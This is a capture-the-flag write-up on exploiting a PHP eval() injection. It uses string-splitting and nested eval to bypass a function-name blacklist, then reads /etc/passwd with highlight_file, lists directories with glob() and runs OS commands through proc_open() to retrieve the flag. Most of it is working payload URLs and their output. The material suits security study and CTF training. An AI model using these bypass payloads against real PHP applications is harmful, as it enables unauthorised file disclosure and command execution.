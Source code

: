 ## 1. Background & Setup

The objective of this challenge is to leverage `eval()` in PHP to gain code
execution while bypassing a blacklist.

From reading the source code provided, we see that the page accepts two GET
parameters: `input` and `thisfile`.

In order to reach the `eval()` code path, we can set `thisfile` to be an
existing directory name (`isfile()` will evaluate to false, and
`file_exists()` will evaluate to true).

`input` is what we wish to run in the `eval()` statement, but it must pass the
blacklist check first. The blacklist itself is a list of all internal (i.e.
built-in) function names (`get_defined_functions()['internal']`).  
  
More about ways to bypass the blacklist in a bit, but for now we can try
`/?input=echo(1);&thisfile=/etc` and observe that it works (prints `1` onto
the page)

## 2. LFD  
### 2.1 Listing files

The blacklist prevents us from using any internal functions⁽¹⁾ directly, but
we can solve this problem with a couple of tricks.

First, we can nest the commands we wish to execute inside another `eval()`,
and since `eval()` takes in a string as an argument, we can split the command
into several strings, and concatenate them.

For example, the string `phpinfo` is disallowed, but we can use
`eval("php"."info();");` as our `input` to call `phpinfo()`.

However, the list of blacklisted function names also contains an
underscore⁽²⁾, so we need to replace any underscores in our payload with
something else. The easiest way is to use a directory name for `thisfile`
which contains an underscore, and reference it through `$thisfille[*index of
underscore*]`. Alternatively, you can also prepend `$lol=eval('return
ch'.'r(0x5f);');` to your input, and replace any underscores with `$lol`.

Combining these two tricks, we can use `highlight_file()` to read arbitrary
files:

```  
/?input=eval("highlight".$thisfille[8]."fil"."e('/etc/passwd');");&thisfile=/lib/x86_64-linux-
gnu  
```  
```php  
Equivalent to: highlight_file('/etc/passwd');  
```

Searching through the usual places however
(`flag`,`flag.txt`,`flag.php`,`/flag`,…), we are unable to find the flag.
Therefore, we turn to listing directories.

### 2.2 Listing directories  

Normally, we'd accomplish this using `scandir()`, but it didn't work in this
case.

Upon closer inspection of the phpinfo dump, we find that the following
functions have been disabled:

```  
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,system,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,error_log,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir  
```

...which includes `scandir()`. This means we cannot run any of these
functions, regardless of whether we can bypass the blacklist.

However, `glob()` is not disabled, and so we can use the following⁽³⁾:

```  
/?input=eval('print'.$thisfille[8].'r(glo'.'b(\'/*\'));');&thisfile=/lib/x86_64-linux-
gnu  
```  
```  
Equivalent to: print_r(glob('/*'));  
```

which yields:

```  
Array  
(  
   [0] => /bin  
   [1] => /boot  
   [2] => /dev  
   [3] => /etc  
   [4] => /flag  
   [5] => /home  
   [6] => /initrd.img  
   [7] => /initrd.img.old  
   [8] => /lib  
   [9] => /lib64  
   [10] => /lost+found  
   [11] => /media  
   [12] => /mnt  
   [13] => /opt  
   [14] => /proc  
   [15] => /readFlag  
   [16] => /root  
   [17] => /run  
   [18] => /sbin  
   [19] => /snap  
   [20] => /srv  
   [21] => /sys  
   [22] => /tmp  
   [23] => /usr  
   [24] => /var  
   [25] => /vmlinuz  
   [26] => /vmlinuz.old  
)  
```

We see that the `/flag` file does indeed exist, even though we could not read
it before. We also see that there is a `/readFlag` file which we cannot
display the contents of either, but we can assume that this is a binary
(perhaps a suid binary) that we can run to print out the contents of `/flag`.
This is the reason the flavourtext hinted at getting a shell – we need to
execute OS commands in order solve this challenge.

## 3. OS Command Injection

Going back to the list of disabled functions, we see that nearly all functions
that we can use to execute code have been disabled. However, they left one
function enabled which allows us to execute commands: `proc_open()`.

It's not pretty, but we can use it like this to run `/readFlag`  
```  
/?input=$descr=array(0=>array('p'.'ipe','r'),1=>array('p'.'ipe','w'),2=>array('p'.'ipe','w'));$pxpes=array();$process=eval('return%20proc'.$thisfille[8].'open("/readFlag",$descr,$pxpes);');eval('echo(fge'.'ts($pxpes[1]));');&thisfile=/lib/x86_64-linux-
gnu  
```  
```php  
Equivalent to:  
$descr = array(  
   0 => array(  
       'pipe',  
       'r'  
   ) ,  
   1 => array(  
       'pipe',  
       'w'  
   ) ,  
   2 => array(  
       'pipe',  
       'w'  
   )  
);  
$pxpes = array();  
$process = proc_open("/readFlag", $descr, $pxpes);  
echo (fgets($pxpes[1]));  
```  
Output:  
```  
FLAG: inctf{That-w4s-fun-bypassing-php-waf:SpyD3r}  
```

## Appendix  
To prove our earlier hypothesis that `/readFlag` is a suid binary, we can run:  
```  
/?input=$descr=array(0=>array('p'.'ipe','r'),1=>array('p'.'ipe','w'),2=>array('p'.'ipe','w'));$pxpes=array();$process=eval('return%20proc'.$thisfille[8].'open("ls%20-l%20/readFlag",$descr,$pxpes);');eval('echo(fge'.'ts($pxpes[1]));');&thisfile=/lib/x86_64-linux-
gnu  
```  
Output:  
```  
-r-s--x--x 1 root ubuntu 8728 Sep 20 08:00 /readFlag  
```  
Observe that the suid bit has been set.

And the flag is only readable by root:  
```  
/?input=$descr=array(0=>array('p'.'ipe','r'),1=>array('p'.'ipe','w'),2=>array('p'.'ipe','w'));$pxpes=array();$process=eval('return
proc'.$thisfille[8].'open("ls -l
/flag",$descr,$pxpes);');eval('echo(fge'.'ts($pxpes[1]));');&thisfile=/lib/x86_64-linux-
gnu  
```  
Output:  
```  
-r-------- 1 root root 45 Sep 20 08:00 /flag  
```  
_____  
#### Footnotes  
1. `echo` is a language construct, not a function, which is why the internal function blacklist did not catch it in the first example  
2. In PHP, `_()` is an alias for `gettext()`  
3. `readdir()` and `opendir()` are also available, but less convenient to use since `readdir()` must be called once for each line of output